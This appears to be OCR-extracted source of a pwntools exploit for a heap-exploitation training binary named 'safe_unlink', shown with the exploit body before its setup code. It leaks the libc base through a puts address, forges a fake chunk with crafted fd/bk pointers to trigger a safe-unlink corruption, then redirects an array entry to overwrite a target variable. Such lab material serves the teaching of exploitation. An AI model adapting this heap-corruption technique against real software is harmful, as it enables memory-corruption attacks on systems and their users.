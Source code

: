 ```python
io.recvuntil(b'puts() @ ')
puts = int(io.recvline(), 16)
libc.address = puts - libc.sym['puts']
info("libc base: " + hex(libc.address))

io.recvuntil(b'> ')

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

chunk_prev = p64(0)
chunk_size = p64(0x80)
fd = p64(elf.sym['m_array'] - 0x18)
bk = p64(elf.sym['m_array'] - 0x10)
nop = p8(0)*(0x88 - 8*5)
fake_prev_size = p64(0x80)
fake_size = p64(0x90)

payload = chunk_prev + chunk_size + fd + bk + nop + fake_prev_size + fake_size

edit(0, payload)
free(chunk_b)

overlapped_mparray = p64(0)*3 + p64(elf.sym['target'])
edit(0, overlapped_mparray)
edit(0, b'Much win')
target()


io.interactive()
```
shell.py
```python
#!/usr/bin/env python3
from pwn import *



context.log_level = 'debug'
context.binary = elf = ELF('./safe_unlink', checksec=False)

libc = ELF('../.glibc/glibc_2.30_no-tcache/libc.so.6', checksec=False)
#libc = elf.libc

gs = """
b *main
b *main+218
b *main+326
b *main+606
b *main+735
"""

index = 0

def info(mes):
    return log.info(mes)

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

```